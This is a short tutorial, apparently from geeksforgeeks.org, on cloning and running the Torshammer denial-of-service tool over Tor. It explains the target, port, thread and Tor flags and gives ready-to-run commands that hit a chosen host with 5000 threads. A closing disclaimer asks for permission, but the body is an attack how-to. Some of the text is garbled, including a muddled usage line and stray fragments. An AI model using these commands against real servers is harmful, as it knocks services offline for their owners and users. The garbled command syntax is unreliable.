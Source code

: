 # torshammer
    $ git clone https://github.com/king1615/torshammer
    $ cd torshammer
   [Write this command-

    $ python torshammer.py
  It will finally open the main interface for the tool.

   -t is for the target, some domain or ip-address.
   -p is for port Defaults to 80.
   -r is for the threads, how many threads we want to run for this attack.
   -T stands for tor customized attacks.
  Let’s do the main thing:

    $ python torshammer.py <i>any hostname/IP</i>  -t -p 80 -r 5000

    For example-

    $ python torshammer.py -t xyz.com  -p 80 -r 5000
As you hit enter after writing those commands, something will appear
  
Disclaimer: This article is just for knowledge purpose. Please don’t use this article to perform any malicious activity. Remember, before targeting or attacking anyone’s IP/hostname/Servers one must have the necessary permissions
  CRIDATE geeksforgeeks.org
